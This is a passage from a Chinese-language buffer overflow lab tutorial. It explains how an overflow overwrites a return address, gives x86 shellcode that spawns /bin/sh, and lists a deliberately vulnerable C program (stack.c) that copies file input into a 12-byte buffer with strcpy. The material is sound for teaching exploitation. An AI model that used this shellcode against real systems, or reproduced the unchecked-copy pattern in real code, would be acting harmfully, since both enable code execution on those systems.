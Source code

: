 一般情况下，缓冲区溢出会造成程序崩溃，在程序中，溢出的数据覆盖了返回地址。而如果覆盖返回地址的数据是另一个地址，那么程序就会跳转到该地址，如果该地址存放的是一段精心设计的代码用于实现其他功能，这段代码就是shellcode。

观察以下代码：

```
#include <stdio.h>
int main( ) {
char *name[2];
name[0] = ‘‘/bin/sh’’;
name[1] = NULL;
execve(name[0], name, NULL);
}
```

本次实验的shellcode，就是刚才代码的汇编版本：

```
\x31\xc0\x50\x68"//sh"\x68"/bin"\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```

###3.3 漏洞程序

把以下代码保存为“stack.c”文件，保存到 /tmp 目录下。代码如下：

```
/* stack.c */
/* This program has a buffer overflow vulnerability. */
/* Our task is to exploit this vulnerability */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int bof(char *str)
{
char buffer[12];

/* The following statement has a buffer overflow problem */
strcpy(buffer, str);

return 1;
}

int main(int argc, char **argv)
{
char str[517];
FILE *badfile;
badfile = fopen("badfile", "r");
fread(str, sizeof(char), 517, badfile);
bof(str);
printf("Returned Properly\n");
return 1;
}
```

通过代码可以知道，程序会读取一个名为“badfile”的文件，并将文件内容装入“buffer”。
